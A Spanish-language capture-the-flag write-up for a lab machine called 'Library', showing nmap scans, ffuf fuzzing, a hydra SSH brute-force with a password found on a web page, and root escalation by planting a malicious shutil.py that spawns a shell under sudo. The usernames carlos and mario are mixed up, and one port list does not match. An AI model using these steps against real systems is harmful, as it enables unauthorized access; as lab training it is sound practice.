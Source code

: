 ### Informe de máquina *"Library"*

![Máquina Library](./screenshots/01_machine.png)

Vamos a realizar la maquina "Library", como siempre vamos a empezar asignando permisos de ejecución al archivo `auto_deploy.sh` eh inicializamos la maquina con `sudo ./autodeploy ` `library.tar`

![Permisos ejecución deploy](./screenshots/02_execution_perms_deploy.png)
![Inicialización máquina](./screenshots/03_run_machine.png)

Realizamos un testeo de conexión con el comando `ping`.

![Test de conexión](./screenshots/04_ping.png)

Y realizamos un escaneo de puertos abiertos con la herramienta `nmap`, el comando usado fue:

```bash
nmap -sS --min-rate 5000 -p- -vvv -Pn -n 172.17.0.2 -oG nmap
```

- `nmap` → Comando para ejecutar herramienta nmap.
- `-sS` → Escaneo SYN ("Stealth Scan"). Envía paquetes SYN sin completar la conexión TCP (más rápido y sigiloso que -sT).
- `--min-rate 5000` → Fuerza a nmap a enviar al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-p-` → Escanea todos los 65535 puertos (en lugar de solo los más comunes).
- `-vvv` → Modo muy detallado (muestra más información en pantalla mientras se ejecuta).
- `-Pn` → No realiza detección de host (asume que el host está activo y no envía ping previo).
- `-n` → No resuelve nombres de dominio (evita consultas DNS, lo que acelera el escaneo).
- `172.17.0.2` → IP objetivo a escanear.
- `-oG nmap` → Guarda los resultados en formato "greppable" en un archivo llamado nmap.

![Escaneo nmap](./screenshots/05_nmap.png)

Encontramos los puertos `22` y `80` abiertos, procedemos a realizar un escaneo más detallada de estos.

```bash
nmap -p21,22 -sC -sV -O 172.17.0.2
```

- `nmap` → Ejecuta la herramienta de escaneo de red Nmap.

- `-p21,22` → Especifica los puertos que queremos escanear. En este caso 21 y 22.

- `-sC` → Ejecuta scripts de detección predeterminados

- `-sV` → Detección de versiones de servicios.

- `-O` → Detección del sistema operativo.

- `172.17.0.2` → Especifica la dirección IP del objetivo a escanear.

![Detalle puertos 22 y 80](./screenshots/06_detail_ports_22_80.png)

Continuamos a revisar que encontramos en la página web de inicio.

![Página web](./screenshots/07_web_page.png)

No se encuentra mucha información, solo la página por defecto de servidor Apache 2.
Procedemos a realizar un ataque de fuzzing al servidor web.

```bash
ffuf -u http://172.17.0.2/FUZZ -w /usr/share/wordlists/dirb/big.txt -t 20 -e .php,.txt,.html,.php.bak
```

![Fuzzing servidor web](./screenshots/08_fuzzing_page.png)

Encontramos que existe tambien un archivo llamado "index.php"

![Página index.php](./screenshots/09_index_php.png)

Encontramos un texto que dice `JIFGHDS87GYDFIGD` suponemos que es una posible contraseña de algun usuario del servidor.

Realizamos un ataque de fuerza bruta en busqueda de un usuario que conincida con esa contraseña

```bash
hydra -L /usr/share/wordlists/john.lst -p "JIFGHDS87GYDFIGD"  ssh://172.17.0.2 -t 10
```

![Fuerza bruta con password](./screenshots/10_find_user_carlos.png)

Accedemos al servidor por ssh con el usuario mario.
Revisamos que binarios puede ejecutar con permisos sudo con el comando `sudo -l`

![Login como carlos](./screenshots/11_login_as_carlos.png)

Encontramos que puede usar el binario python3 con privilegios hacia el archivo `/opt/script.py`.

![Permisos con privilegios mario](./screenshots/12_sudo_perms.png)

Ejecutando `cat` a ese archivo vemos que importa una libreria llamada `shutil`.
Podemos crear un archivo en ese mismo directorio `/opt` con ese mismo nombre con extención py.
Consultamos como ejecutar una shell con python en [GTFOBins](https://gtfobins.github.io/)

![Busqueda de shell con python](./screenshots/13_find_shell_python.png)

Con el comando `nano /opt/shutil.py` editamos nuestro archivo de la siguiente forma:

```python
import os
os.system("/bin/bash")
```

Guardamos el archivo.
Ahora ejecutamos el comando `sudo python3 /opt/script.py` y se nos inicia una shell, donde ejecutando el comando `whoami` observamos que somos usuarios `root`

![Login como root](./screenshots/14_root.png)
